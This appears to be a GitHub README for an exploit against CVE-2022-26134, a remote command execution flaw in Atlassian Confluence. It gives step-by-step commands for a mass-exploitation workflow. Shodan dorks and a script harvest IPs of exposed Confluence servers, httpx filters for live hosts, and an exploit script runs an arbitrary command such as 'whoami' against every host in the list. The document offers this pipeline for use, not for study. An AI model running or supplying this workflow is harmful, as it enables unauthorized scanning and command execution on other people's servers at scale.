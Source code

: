 # CVE-2022-26134

1) First run the shodan scripts to grabs all the ips <br><br>
   `python3 shodan_script.py -API your_api -L limit -D "http.favicon.hash:-305179312 200" > log.txt`
   <br>   
   `ex: python3 shodan_script.py -API xxxxxxx -L 10 -D "http.favicon.hash:-305179312 200" > log.txt`

2) For all valid ips : <br><br>
   `cat log.txt | httpx -o forexploits.txt`
   
3) Run Exploit against the list "forexploits.txt" : <br><br>
   `python3 CVE-2022-26134.py forexploits.txt "whoami"` <br><br>
    which prints the ip and command for vulnerable hosts.

# Shodan_Dorks for CVE-2022-26134
`http.component:"atlassian confluence"`<br> <br>
`http.favicon.hash:-305179312"`<br> <br>
`http.title:"Log In - Confluence" 200`<br> <br>
`http.component:"atlassian confluence" http.title:"Log In - Confluence" 200`<br> <br>
`http.favicon.hash:-305179312 200`<br> <br>
